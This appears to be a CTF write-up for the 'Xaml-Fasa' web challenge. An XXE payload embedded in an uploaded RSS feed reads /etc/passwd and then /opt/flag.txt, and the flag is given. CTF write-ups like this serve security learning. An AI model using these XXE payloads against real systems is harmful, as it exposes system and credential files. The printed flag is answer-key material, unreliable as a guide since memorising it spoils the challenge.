





## Summary

Challenge **Xaml-Fasa** from the 2025-SADC-NextGenCyber-CTF CTF, web category.

## Statement and artefacts

See the original challenge files and images in this directory.

## Recognition signals

- (see resolution method below)

## Resolution method

# Xaml-Fasa



Here is the display of the website



I tried to upload a simple rss file

```xml
<?xml version="1.0" encoding="utf-8"?>
<rss version="2.0">
        <channel>

                <title>Example Feed</title>
                <description>Insert witty or insightful remark here</description>
                <link>http://example.org/</link>
                <lastBuildDate>Sat, 13 Dec 2003 18:30:02 GMT</lastBuildDate>
                <managingEditor>johndoe@example.com (John Doe)</managingEditor>

                <item>
                        <title>Atom-Powered Robots Run Amok</title>
                        <link>http://example.org/2003/12/13/atom03</link>
                        <guid isPermaLink="false">urn:uuid:1225c695-cfb8-4ebb-aaaa-80da344efa6a</guid>
                        <pubDate>Sat, 13 Dec 2003 18:30:02 GMT</pubDate>
                        <description>Some text.</description>
                </item>

        </channel>
</rss>
```

Here is what we get



The xml code we upload earlier is writing in xml. So it might be a XXE (XML External Entity) injection

From this [website](https://portswigger.net/web-security/xxe) I found how to exploit it

This is an example to read the /etc/passwd file

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Let’s adapt it to out rss file

I rewrote it this way

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<rss version="2.0">
        <channel>

                <title>Example Feed</title>
                <description>Insert witty or insightful remark here</description>
                <link>http://example.org/</link>
                <lastBuildDate>Sat, 13 Dec 2003 18:30:02 GMT</lastBuildDate>
                <managingEditor>johndoe@example.com (John Doe)</managingEditor>

                <item>
                        <title>Atom-Powered Robots Run Amok</title>
                        <link>&xxe;</link>
                        <guid isPermaLink="false">urn:uuid:1225c695-cfb8-4ebb-aaaa-80da344efa6a</guid>
                        <pubDate>Sat, 13 Dec 2003 18:30:02 GMT</pubDate>
                        <description>Some text.</description>
                </item>

        </channel>
</rss>
```

And upload it to the server



We can see that we read the file.

The challenge says the flag is in /opt/flag.txt

We need to just change the /etc/passwd path to /opt/flag.txt, reupload it to retrive the flag

Or modify the request in burpsuite



FLAG: SADC{37bc4fdcc67bbaf22320b410d4ad0cb4}

## Flag

SADC{37bc4fdcc67bbaf22320b410d4ad0cb4}

## Lessons and reusable patterns

- (see resolution method above)
